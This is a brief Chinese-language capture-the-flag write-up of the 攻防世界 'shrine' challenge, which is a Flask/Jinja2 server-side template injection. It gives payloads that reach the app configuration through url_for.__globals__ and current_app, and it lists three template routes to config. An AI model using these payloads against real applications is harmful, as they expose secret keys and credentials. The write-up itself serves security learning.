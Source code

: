 # 攻防世界 shrine(难度3) SSTI

## 思路

- 这个题，我看出来是SSTI，但是试了半天，不知道如何获取配置文件

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1682040760277-a6d37d9b-6aa0-44ee-8cc0-f29bb5a2bb48.png#averageHue=%23fdfafa&clientId=ub8272dd9-67b2-4&from=paste&height=166&id=udd8c6ed0&originHeight=332&originWidth=1116&originalType=binary&ratio=2&rotation=0&showTitle=false&size=31440&status=done&style=none&taskId=u46e42df5-75dd-4b5f-b547-4e061fbfd6d&title=&width=558)

- 这里是把**变量名**为config的置为None

## wp

- 通过`__globals__`获取`app`，再获取配置文件

```python
{{url_for.__globals__['current_app'].config['FLAG']}}
```

## 总结

模板获取配置文件有3种方式

1. `{{self.__dict__}}`
2. `config`
3. `{{url_for.__globals__['current_app'].config['FLAG']}}`